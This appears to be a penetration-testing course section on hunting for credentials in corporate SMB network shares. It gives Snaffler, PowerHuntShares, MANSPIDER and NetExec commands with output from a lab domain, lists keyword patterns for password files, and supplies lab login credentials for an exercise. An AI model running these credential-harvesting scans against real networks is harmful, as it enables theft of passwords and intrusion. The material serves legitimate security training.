

# Credential Hunting in Network Shares  
Nearly all corporate environments include network shares used by employees to store and share files across teams. While these shared folders are essential, they can unintentionally become a goldmine for attackers, especially when sensitive data like plaintext credentials or configuration files are left behind. In this section, we'll explore how to hunt for credentials across network shares from both Windows and Linux systems using common tools, along with general techniques attackers use to uncover hidden secrets.  
## Common credential patterns  
Before diving into specialized tools, it's important to understand the types of patterns and file formats that often reveal sensitive information. This was covered in earlier sections, so we won't repeat it in detail here. But as a quick reminder, here are some general tips:  
* Look for keywords within files such as passw, user, token, key, and secret.  
* Search for files with extensions commonly associated with stored credentials, such as .ini, .cfg, .env, .xlsx, .ps1, and .bat.  
* Watch for files with "interesting" names that include terms like config, user, passw, cred, or initial.  
* If you're trying to locate credentials within the INLANEFREIGHT.LOCAL domain, it may be helpful to search for files containing the string INLANEFREIGHT\.  
* Keywords should be localized based on the target; if you are attacking a German company, it's more likely they will reference a "Benutzer" than a "User".  
* Pay attention to the shares you are looking at, and be strategic. If you scan ten shares with thousands of files each, it's going to take a significant amount of time. Shares used by IT employees might be a more valuable target than those used for company photos.  
With all of this in mind, you may want to begin with basic command-line searches (e.g., ****Get-ChildItem -Recurse -Include *.ext \\Server\Share | Select-String -Pattern ...****) before scaling up to more advanced tools. Let's take a look at how we can use ****MANSPIDER****, ****Snaffler****, ****SnafflePy****, and ****NetExec**** to automate and enhance this credential hunting process.  
## Hunting from Windows  
## Snaffler  
The first tool we will cover is [Snaffler](https://github.com/SnaffCon/Snaffler). This is a C# program that, when run on a ****domain-joined**** machine, automatically identifies accessible network shares and searches for interesting files. The ****README**** file in the Github repository describes the numerous configuration options in great detail, however a basic search can be carried out like so:  
    
Credential Hunting in Network Shares  
```
c:\Users\Public>Snaffler.exe -s

 .::::::.:::.    :::.  :::.    .-:::::'.-:::::':::    .,:::::: :::::::..
;;;`    ``;;;;,  `;;;  ;;`;;   ;;;'''' ;;;'''' ;;;    ;;;;'''' ;;;;``;;;;
'[==/[[[[, [[[[[. '[[ ,[[ '[[, [[[,,== [[[,,== [[[     [[cccc   [[[,/[[['
  '''    $ $$$ 'Y$c$$c$$$cc$$$c`$$$'`` `$$$'`` $$'     $$""   $$$$$$c
 88b    dP 888    Y88 888   888,888     888   o88oo,.__888oo,__ 888b '88bo,
  'YMmMY'  MMM     YM YMM   ''` 'MM,    'MM,  ''''YUMMM''''YUMMMMMMM   'W'
                         by l0ss and Sh3r4 - github.com/SnaffCon/Snaffler


[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:42Z [Info] Parsing args...
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Info] Parsed args successfully.
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Info] Invoking DFS Discovery because no ComputerTargets or PathTargets were specified
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Info] Getting DFS paths from AD.
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Info] Found 0 DFS Shares in 0 namespaces.
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Info] Invoking full domain computer discovery.
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Info] Getting computers from AD.
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Info] Got 1 computers from AD.
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Info] Starting to look for readable shares...
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Info] Created all sharefinder tasks.
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Black}<\\DC01.inlanefreight.local\ADMIN$>()
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\ADMIN$>(R) Remote Admin
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Black}<\\DC01.inlanefreight.local\C$>()
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\C$>(R) Default share
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\Company>(R)
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\Finance>(R)
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\HR>(R)
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\IT>(R)
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\Marketing>(R)
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\NETLOGON>(R) Logon server share
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\Sales>(R)
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:43Z [Share] {Green}<\\DC01.inlanefreight.local\SYSVOL>(R) Logon server share
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:51Z [File] {Red}<KeepPassOrKeyInCode|R|passw?o?r?d?>\s*[^\s<]+\s*<|2.3kB|2025-05-01 05:22:48Z>(\\DC01.inlanefreight.local\ADMIN$\Panther\unattend.xml) 5"\ language="neutral"\ versionScope="nonSxS"\ xmlns:wcm="http://schemas\.microsoft\.com/WMIConfig/2002/State"\ xmlns:xsi="http://www\.w3\.org/2001/XMLSchema-instance">\n\t\t\ \ <UserAccounts>\n\t\t\ \ \ \ <AdministratorPassword>\*SENSITIVE\*DATA\*DELETED\*</AdministratorPassword>\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ </UserAccounts>\n\ \ \ \ \ \ \ \ \ \ \ \ <OOBE>\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ <HideEULAPage>true</HideEULAPage>\n\ \ \ \ \ \ \ \ \ \ \ \ </OOBE>\n\ \ \ \ \ \ \ \ </component
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:53Z [File] {Yellow}<KeepDeployImageByExtension|R|^\.wim$|29.2MB|2022-02-25 16:36:53Z>(\\DC01.inlanefreight.local\ADMIN$\Containers\serviced\WindowsDefenderApplicationGuard.wim) .wim
[INLANEFREIGHT\jbader@DC01] 2025-05-01 17:41:58Z [File] {Red}<KeepPassOrKeyInCode|R|passw?o?r?d?>\s*[^\s<]+\s*<|2.3kB|2025-05-01 05:22:48Z>(\\DC01.inlanefreight.local\C$\Windows\Panther\unattend.xml) 5"\ language="neutral"\ versionScope="nonSxS"\ xmlns:wcm="http://schemas\.microsoft\.com/WMIConfig/2002/State"\ xmlns:xsi="http://www\.w3\.org/2001/XMLSchema-instance">\n\t\t\ \ <UserAccounts>\n\t\t\ \ \ \ <AdministratorPassword>\*SENSITIVE\*DATA\*DELETED\*</AdministratorPassword>\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ </UserAccounts>\n\ \ \ \ \ \ \ \ \ \ \ \ <OOBE>\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ <HideEULAPage>true</HideEULAPage>\n\ \ \ \ \ \ \ \ \ \ \ \ </OOBE>\n\ \ \ \ \ \ \ \ </component
<SNIP>

```
All of the tools covered in this section output a ****large amount of information****. While they assist with automation, a fair amount of manual review is typically required, as many matches may turn out to be ****"false positives"****. Two useful parameters that can help refine Snaffler's search process are:  
* -u retrieves a list of users from Active Directory and searches for references to them in files  
* -i and -n allow you to specify which shares should be included in the search  
## PowerHuntShares  
Another tool that can be used is [PowerHuntShares](https://github.com/NetSPI/PowerHuntShares), a PowerShell script that doesn't necessarily need to be run on a domain-joined machine. One of its most useful features is that it generates an ****HTML report**** upon completion, providing an easy-to-use UI for reviewing the results:  
  
We can run a basic scan using ****PowerHuntShares**** like so:  
    
    
Credential Hunting in Network Shares  
```
PS C:\Users\Public\PowerHuntShares> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public

 ===============================================================
 INVOKE-HUNTSMBSHARES
 ===============================================================
  This function automates the following tasks:

  o Determine current computer's domain
  o Enumerate domain computers
  o Check if computers respond to ping requests
  o Filter for computers that have TCP 445 open and accessible
  o Enumerate SMB shares
  o Enumerate SMB share permissions
  o Identify shares with potentially excessive privileges
  o Identify shares that provide read or write access
  o Identify shares thare are high risk
  o Identify common share owners, names, & directory listings
  o Generate last written & last accessed timelines
  o Generate html summary report and detailed csv files

  Note: This can take hours to run in large environments.
 ---------------------------------------------------------------
 |||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
 ---------------------------------------------------------------
 SHARE DISCOVERY
 ---------------------------------------------------------------
 [*][05/01/2025 12:51] Scan Start
 [*][05/01/2025 12:51] Output Directory: c:\Users\Public\SmbShareHunt-05012025125123
 [*][05/01/2025 12:51] Successful connection to domain controller: DC01.inlanefreight.local
 [*][05/01/2025 12:51] Performing LDAP query for computers associated with the inlanefreight.local domain
 [*][05/01/2025 12:51] -  computers found
 [*][05/01/2025 12:51] - 0 subnets found
 [*][05/01/2025 12:51] Pinging  computers
 [*][05/01/2025 12:51] -  computers responded to ping requests.
 [*][05/01/2025 12:51] Checking if TCP Port 445 is open on  computers
 [*][05/01/2025 12:51] - 1 computers have TCP port 445 open.
 [*][05/01/2025 12:51] Getting a list of SMB shares from 1 computers
 [*][05/01/2025 12:51] - 11 SMB shares were found.
 [*][05/01/2025 12:51] Getting share permissions from 11 SMB shares
<SNIP>

```
## Hunting from Linux  
## MANSPIDER  
If we don’t have access to a domain-joined computer, or simply prefer to search for files remotely, tools like [MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER) allow us to scan SMB shares from Linux. It's best to run ****MANSPIDER**** using the official Docker container to avoid dependency issues. Like the other tools, ****MANSPIDER**** offers many parameters that can be configured to fine-tune the search. A basic scan for files containing the string ****passw**** can be run as follows:  
    
    
Credential Hunting in Network Shares  
Credential Hunting in Network Shares  
```
Pavlo142@htb[/htb]$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.121 -c 'passw' -u 'mendres' -p 'Inlanefreight2025!'

[+] MANSPIDER command executed: /usr/local/bin/manspider 10.129.234.121 -c passw -u mendres -p Inlanefreight2025!
[+] Skipping files larger than 10.00MB
[+] Using 5 threads
[+] Searching by file content: "passw"
[+] Matching files will be downloaded to /root/.manspider/loot
[+] 10.129.234.121: Successful login as "mendres"
[+] 10.129.234.121: Successful login as "mendres"
<SNIP>

```
## NetExec  
In addition to its many other uses, ****NetExec**** can also be used to search through network shares using the ****--spider**** option. This functionality is described in great detail on the [official wiki](https://www.netexec.wiki/smb-protocol/spidering-shares). A basic scan of network shares for files containing the string ****"passw"**** can be run like so:  
    
    
Credential Hunting in Network Shares  
```
Pavlo142@htb[/htb]$ nxc smb 10.129.234.121 -u mendres -p 'Inlanefreight2025!' --spider IT --content --pattern "passw"

SMB         10.129.234.121  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:inlanefreight.local) (signing:True) (SMBv1:False)
SMB         10.129.234.121  445    DC01             [+] inlanefreight.local\mendres:Inlanefreight2025! 
SMB         10.129.234.121  445    DC01             [*] Started spidering
SMB         10.129.234.121  445    DC01             [*] Spidering .
<SNIP>

```
## Exercise  
Use the credentials ****mendres:Inlanefreight2025!**** to connect to the target either by RDP or WinRM, then use the tools and techniques taught in this section to answer the questions below. For your convenience, ****Snaffler**** and ****PowerHuntShares**** can be found in ****C:\Users\Public****.  
